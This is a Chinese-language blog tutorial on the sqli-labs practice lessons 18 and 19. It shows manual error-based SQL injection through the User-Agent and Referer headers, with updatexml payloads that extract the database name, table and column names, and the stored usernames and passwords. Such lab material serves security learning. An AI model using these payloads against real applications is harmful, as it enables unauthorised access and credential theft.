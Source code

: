 # 原创
：  （手工）【sqli-labs18-19】Header注入：原理、利用过程

# （手工）【sqli-labs18-19】Header注入：原理、利用过程

**目录**

[推荐：](#%C2%A0%E6%8E%A8%E8%8D%90%EF%BC%9A)

[一、（手工）SQL注入基本步骤：](#%E4%B8%80%E3%80%81%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%88%E6%89%8B%E5%B7%A5%EF%BC%89SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less18（POST-Header injection -Uagent field -Error based）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（Header注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#2.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[ 2.3、第二步：分析过滤](#%C2%A02.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E5%88%86%E6%9E%90%E8%BF%87%E6%BB%A4)

[2.4、第三步：暴库](#2.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9A%B4%E5%BA%93)

[2.5、第四步：爆表名](#%C2%A0%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%88%86%E8%A1%A8%E5%90%8D)

[2.6、第五步：爆字段](#%C2%A0%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.7、第六步：爆数据](#%C2%A0%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

[三、Less19（POST-Header injection -Referer field -Error based）](#%E4%BA%8C%E3%80%81Less8%EF%BC%88GET%20-%20Blind%20-%20Boolian%20Based%20-%20Single%20Quotes%EF%BC%89)

[2.1、简介：（Header注入）](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99%E6%B3%A8%E5%85%A5%EF%BC%89)

---


> 
<h2>推荐：</h2>
[【SQL注入】UPDATE、insert、delete注入https://blog.csdn.net/qq_53079406/article/details/125670581?spm=1001.2014.3001.5502<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125670581?spm=1001.2014.3001.5502](https://blog.csdn.net/qq_53079406/article/details/125670581?spm=1001.2014.3001.5502)


---


---


## 一、（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：分析权限、过滤
第三步：爆数据库名
第四步：爆表名
第五步：爆字段名
第六步：爆数据


---


---


## 二、Less18（POST-Header injection -Uagent field -Error based）

> 
<h3>2.1、简介：（Header注入）</h3>
请求方法：POST
方法：Header注入报错回显



> 
<h3>2.2、第一步：注入点测试</h3>
输入框测试都不存在注入点


 在Header中的User Agent中输入单引号报错
说明存在注入点
且为单引号闭合





> 
<h3> 2.3、第二步：分析过滤</h3>
对输入框都进行了过滤
接下来：
方法一：获得源码，寻找过滤不严谨的地方
方法二：寻找其他注入点（Header）


> 
<h3>2.4、第三步：暴库</h3>
' or updatexml(1,concat(0x7e,(database()),0x7e),0) or '<img alt="" height="799" src="https://img-blog.csdnimg.cn/2dc47dd71e5c4dbca28f414d3bda4cec.png" width="1200"/>
 或者
' and updatexml(1,concat(0x7e,(select database())),1) and '

再或者
',1,updatexml(1,concat(0x7e, database(),0x7e),1))#





> 
<h3>2.5、第四步：爆表名</h3>
',1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1))#






> 
<h3>2.6、第五步：爆字段</h3>
',1,updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1))#






> 
<h3>2.7、第六步：爆数据</h3>
',1,updatexml(1,concat(0x7e,(select group_concat(username,'-',password) from security.users),0x7e),1))#




---


---


## 三、Less19（POST-Header injection -Referer field -Error based）

> 
<h3>2.1、简介：（Header注入）</h3>
请求方法：POST
方法：Header注入报错回显


> 
同Less18，仅字段不同，报错回显

